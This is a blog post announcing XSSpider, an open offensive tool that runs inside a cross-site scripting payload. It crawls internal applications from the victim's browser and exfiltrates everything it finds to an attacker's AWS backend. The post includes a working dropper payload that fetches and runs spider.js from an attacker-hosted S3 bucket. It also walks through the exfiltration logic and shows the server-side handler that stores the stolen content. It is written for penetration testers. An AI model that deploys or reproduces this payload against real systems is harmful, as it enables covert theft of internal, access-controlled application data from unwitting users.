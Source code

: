 ```yaml
---
layout: post
title:  "Tool Release: XSSpider"
date:   2020-09-10 12:00:00
image: 
  path: /assets/img/security/XSSpider/xsspider-logo.png
author: Ryan
---
```


- Table of Contents
{:toc .large-only}

Cross-Site Scriptng (XSS) is commonly used to steal credentials and session cookie information, but what good are credentials when the targetted application can’t be accessed from the outside? Or perhaps we've found XSS in a target where entire areas of the application are locked down to higher priviledged users, what can we do as attackers to learn more about its hidden funtionality? XSSpider is a unique spidering tool which is meant to run within an XSS payload, spidering from the victim’s browser and exfiltrating everything it finds for later review. Find it [Here](https://github.com/ScienceVikings/XSSpider) on GitHub

## Background
While conducting an assessment, I discovered a [Blind XSS](https://www.acunetix.com/blog/articles/blind-xss/) vulnerability into an unknown application. Initial information gathering showed a few key things:
* Sensitive cookies were protected by the [HTTP-Only](https://owasp.org/www-community/HttpOnly) flag, so we couldn't steal the user's session
* There was no login page we could clone, so stealing credentials wasn't an option
* The application was locked down to internal use only, so there was no way to access it directly.

Not wanting to leave any stones unturned, I was determined to learn more about the application and how to leverage it. After unsuccessfully searching for a tool that could do the job, I developed a crude proof-of-concept for XSSpider. It worked perfectly, giving greater insight to the application and leading to further compromise of the system.

## Initial Payload
After discovering an injection point for XSS, the initial payload consists of a dropper to pull in resurces for the spider and additional code.

```python
var spider_URL = 'https://{{S3_Payload_Bucket}}.s3.amazonaws.com/spider.js';

if (typeof(jQuery) == 'undefined') {
    (function(e, s) {
        e.src = s;
        e.onload = function() {
            Execute()
        };
        document.head.appendChild(e);
    })(document.createElement('script'), '//code.jquery.com/jquery-latest.min.js')
} else {
    Execute()
}

function Execute() {
    $.getScript(spider_URL)
}
```

#### Walk-through - Payload.js:
* **Line 1**: Sets variable to the path where the spider is hosted
* **Lines 3-13**: This check determines if jQuery is loaded and loads it if needed. Calls the Execute() function on completion
* **Lines 15-17**: The Execute() function will initially contain a call for loading spider.js, and can be updated to run additional code later

## The Spider
Once the spider is loaded, it crawls every resource the victim user has access to. This includes all pages, scripts, images, and css. Discovered resoources are then exfiltrated to our server where they can be reviewed. You can follow along with the code [Here](https://github.com/ScienceVikings/XSSpider/blob/master/static/spider.js)

#### Walk-through - Spider.js:
* **Line 9: storeData_URL** Sets variable to where discovered resources are sent
* **Lines 11-24: $(document).ready** Triggered when the script is loaded, information about the initial landing page is processed and extracted. The HTML for the page is then sent to the ProcessHTML() function to begin the crawl
* **Lines 26-38: ProcessHTML()** The ProcessHTML() function starts by extracting all links, scripts, styles, icons, and images into individual arrays and passing them into their appropriate functions for processing
* **Lines 40-63: ProcessElements()** Links, scripts, and styles are sent to ProcessElements(), where they're compared against a list of already known elements. If they're new, their content is then extracted and sent to UploadData(). If the elements are links to additional pages, they are recursively processed, sent back to the previous function
* **Lines 65-88: ProcessImages()** Needing an extra step, images and icons are handled by the ProcessImages() function. Their contents are loaded as canvas elements and then converted to their base64 counterparts. This data is then sent to the UploadData() function
* **Lines 90-102: UploadData()** The UploadData() function is responsible for taking all the extracted elements and information and sending it out to our server. Making asychronous calls, the spider continues with its process without waiting for requests to complete

## Backend Resources
Server-side resources for the spider are currently hosted in AWS, but a Docker version of the tool is under development for those who'd rather self-host. Everything is spun up and configured through [Serverless](https://www.serverless.com/) and AWS CloudFormation, utilizing the following resources:
* **S3**: Used for hosting the Serverless package, static spider resources, and the exfiltrated data
* **API-Gateway**: Hosts our public-facing endpoint for uploading the data
* **Lambda**: Python-based, handles the uploaded data by parsing out structure information and restoring content to a readable form in S3

```python
raw_path = re.sub('^(\.{1,2}\/)*','',unquote(data['path'])).strip('/').lower()
url_parts = raw_path.split('?')
if len(url_parts) == 1:
    path_parts = url_parts[0].split('/')   
    if len(path_parts) == 1:
        if path_parts[0] == '':
            filename = '/index.html'
        else:
            filename = '/' +(path_parts[0] + '.html' if '.' not in path_parts[0] else path_parts[0])
    elif len(path_parts) > 1:
        path = '/' + '/'.join(path_parts[:-1])
        filename = '/' + (path_parts[-1] + '.html' if '.' not in path_parts[-1] else path_parts[-1])
elif len(url_parts) == 2:
    if url_parts[0] == '':
        path = '/index'
    else:
        path = '/' + url_parts[0].split('.')[0]
    filename = '/%s.html'%(hashlib.md5(url_parts[1].encode()).hexdigest())

file_data = base64.b64decode(data['body']).decode('utf-8')
if file_data.startswith('data:image'):
    file_data = base64.decodebytes(bytes(file_data.split(',')[1],'utf-8'))

s3_response = s3.put_object(
    Bucket=bucket_name,
    Key=data['site']+path+filename,
    Body=file_data,
    ACL='private'
)
```

#### Walk-through - Handler.py:
* **Lines 1-2**: The raw path is extracted from the data, separating the main url from any potential parameters
* **Lines 3-12**: If no parameters are present, the code checks to see how many pieces of the path exist, setting the filename to the last piece, or index.html
* **Line 13-18**: If parameters exist, they are hashed and used as the filename, while the rest of the url is set as the path
* **Lines 20-22**: The body is extracted from the data, and returned to its original form. Images are processed with an additional step due to the added encoding
* **Lines 24-29**: All the extracted details and data are formed into an object for consumption by S3. They're organized with a base path matching the target application domain and separate directories for each part of the URL

## Local Hosting
The last piece of XSSpider is the [server](https://github.com/ScienceVikings/XSSpider/blob/master/server/server.py), designed to take resources stored in S3 and host them locally. Fully rendered and mirroring the real site, this allows us to learn more about the application, its functionality, and how we can leverage it with new custom payloads in our dropper. Keep in mind that only the GET requests will behave as expected, unless the real target's API is public-facing and unauthenticated.

Example of the vulnerable Multillidae application, extracted and locally hosted with XSSpider:

![XSSpider](/assets/img/security/XSSpider/xsspider-server.png)